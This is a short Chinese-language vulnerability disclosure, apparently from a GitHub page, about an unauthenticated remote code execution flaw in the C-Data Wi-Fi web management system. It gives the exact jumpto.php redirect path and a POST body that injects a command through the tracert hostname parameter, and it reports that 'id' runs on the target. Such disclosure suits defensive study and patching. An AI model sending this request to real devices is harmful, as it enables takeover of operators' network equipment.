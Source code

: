 # C-Data Wi-Fi Web管理系统存在未授权RCE漏洞

## 一、漏洞描述

        C-Data是一家提供主流接入网技术所需全线产品的高科技企业。在中国市场，C-Data拥有电信、广电、驻地网运营商、系统集成商等众多品牌客户，产品销售更是覆盖世界各地，在南美洲、非洲、东欧、东南亚、亚太地区近百个国家的运营商网络、企业网络中得到了广泛应用。

        而其提供的Wi-Fi Web管理系统存在未授权远程代码执行漏洞，攻击者通过漏洞可以获取服务器权限。



## 二、定位漏洞点

在cgi-bin 目录下 jumpto.php 可以通过拼接GET参数，跳转到同级目录下的php或html文件

![](./assets/jumpto.png)

同级目录中的diagnosis目录下的diagnosis_config_save.php文件中提供了tracert功能，其代码如下：

![image-20221201184212966](assets/image-20221201184212966.png)

![](./assets/tracert_vuln.png)

在指定call_function为tracert时，该函数接受post的iface参数与hostname参数，拼接指令并执行。然而此处对传进来的iface与hostname参数都没有进行校验，因此可以通过构造阶段从而实现任意命令执行。

## 三、漏洞利用

根据漏洞点构造发包请求，将其设置为POST请求包，

设置GET参数使得能够从jumpto.php跳转到diagnosis_config_save.php

```
cgi-bin/jumpto.php?class=diagnosis&page=config_save&isphp=1
```

设置POST参数使得可以执行ping命令并对其截断从而执行任意命令

```
call_function=tracert&iface=eth0&hostname=127.0.0.1;cmd
```

漏洞利用结果如下，成功执行id指令，返回被攻击端的用户id：

![](./assets/tracert_success.png)